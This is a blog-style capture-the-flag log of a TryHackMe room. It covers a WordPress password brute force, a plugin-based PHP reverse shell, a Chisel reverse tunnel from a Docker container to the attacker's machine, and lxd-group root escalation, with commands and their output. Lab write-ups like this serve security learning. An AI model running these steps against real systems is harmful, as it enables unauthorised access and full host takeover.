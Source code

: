 ```yaml
---
layout: post
title: CTF Log - For Business Reasons {THM}
description: A log of how I did the TryHackMe room For Business Reasons by MsMouse
summary: A log of the THM room "For Business Reasons"
tags: ctf log
minute: 9
---
```

<br/>

> {{ page.description }}

<br/>

# For Business Reasons
## Wordpress Login Bruteforce & Plugin Reverse Shell
Scanned and received responses from the following ports: 22, 80, 2377, 7946. Only port 80 registered as open. 

Found a Wordpress blog and noticed that the default/template posts were made by a user named `sysadmin.` So, I chucked a `rockyou.txt` bruteforce against that username while I further enumerated the site. 

Soon after, I landed a valid password. 

I chucked a `rockyou.txt` bruteforce against the username `sysadmin` while I researched that vulnerability and landed a valid password.

Edited an existing plugin to include a PHP reverse shell and enabled the plugin; got a shell as `www-data` in a Docker container.

## Proxying Through Docker Container
The Docker container I landed in was lacking a lot core networking utils like `ping`, `ip`, `ifconfig`, etc. After poking around for a while I stumbled upon [this](https://staaldraad.github.io/2017/12/20/netstat-without-netstat/) fantastic blog post by [Staaldraad](https://staaldraad.github.io/). In it they detail some research into parsing data from the `/proc/net/tcp` pseudofile to recreate the `netstat` and `id` commands. 

I use their `awk` script:

```bash{% raw %}
awk 'function hextodec(str,ret,n,i,k,c){
    ret = 0
    n = length(str)
    for (i = 1; i <= n; i++) {
        c = tolower(substr(str, i, 1))
        k = index("123456789abcdef", c)
        ret = ret * 16 + k
    }
    return ret
}
function getIP(str,ret){
    ret=hextodec(substr(str,index(str,":")-2,2)); 
    for (i=5; i>0; i-=2) {
        ret = ret"."hextodec(substr(str,i,2))
    }
    ret = ret":"hextodec(substr(str,index(str,":")+1,4))
    return ret
} 
NR > 1 {{if(NR==2)print "Local - Remote";local=getIP($2);remote=getIP($3)}{print local" - "remote}}' /proc/net/tcp{% endraw %}
```

to see the current open TCP connections. 

![Screenshot of aforementioned awk script and output.](/assets/media/forbusinessreasons/proc_net_tcp_netstat.png)

I noticed a connection between `172.18.0.3` and `10.13.1.225`. Since the latter is my attack machine's IP address I conclude that the former IP address belongs to the container that I'm in. From there I correctly assume that the gateway address of that subnet, `172.18.0.1`, belongs to the machine hosting the Docker container; I use the following to scan for certain ports on that address. 
```bash
curl -m 1 --include -v localhost:$x
```

- `-m 1` Setting a max timeout time for the curl attempt, prevents me from getting stuck on an unresponsive port, which would require me to `ctrl+c` and thusly break my non-pty shell.

After identifying an open port 22 on the host machine, I download [Chisel](https://github.com/jpillora/chisel) onto the docker container and launch the client command: 

```bash$ ./chisel client 10.13.1.225:1234 R:2002:172.168.0.1:22
2021/09/13 21:34:59 client: Connecting to ws://10.13.1.225:1234
2021/09/13 21:35:00 client: Connected (Latency 184.290108ms)
```

And on my attacker machine, the server command:

```bash
┌──(kali㉿kali)-[/opt/chisel/binaries]
└─$ ./chisel_1.7.6_linux_amd64 server -p 1234 --reverse

2021/09/13 16:32:53 server: Reverse tunnelling enabled
2021/09/13 16:32:53 server: Fingerprint gOtbf9dlNJ2ecdo44g20iAMt+SSp8NkeAfp5CWKusaU=
2021/09/13 16:32:53 server: Listening on http://0.0.0.0:1234
```

I'm then able to ssh against my local machine and have my request proxied through to the victim host machine. The credentials for `sysadmin` are reused from the Wordpress blog.

## lxc Privileged, Recursive Container Filesystem Privesc
The privilege escalation technique is simple. My user, `sysadmin`, belongs to the `lxd` group which by default allows that user to use `lxc` to escalate privileges. 

I create an [Alpine](https://hub.docker.com/_/alpine) container on my attacker machine using [Distrobuilder](https://github.com/lxc/distrobuilder) then download the resulting files onto the victim machine. 

I then execute the following sequence of commands (Learned from [Hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)) to create a privileged docker container whose filesystem contains a recursive mount of the host machine's filesystem. This allows me to enter the docker container as `root` and act upon the host filesystem as `root`.

```bash
sysadmin@ubuntu:~$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
Image imported with fingerprint: 02aa7f299f733b42a726c44d6505645cf23e67ebcb31fda3ec24e8c2d4c0497b             
sysadmin@ubuntu:~$ lxc init alpine privesc -c security.privileged=true             
Creating privesc
sysadmin@ubuntu:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
sysadmin@ubuntu:~$ lxc start privesc
sysadmin@ubuntu:~$ lxc exec privesc /bin/sh
~ # id
uid=0(root) gid=0(root)
```
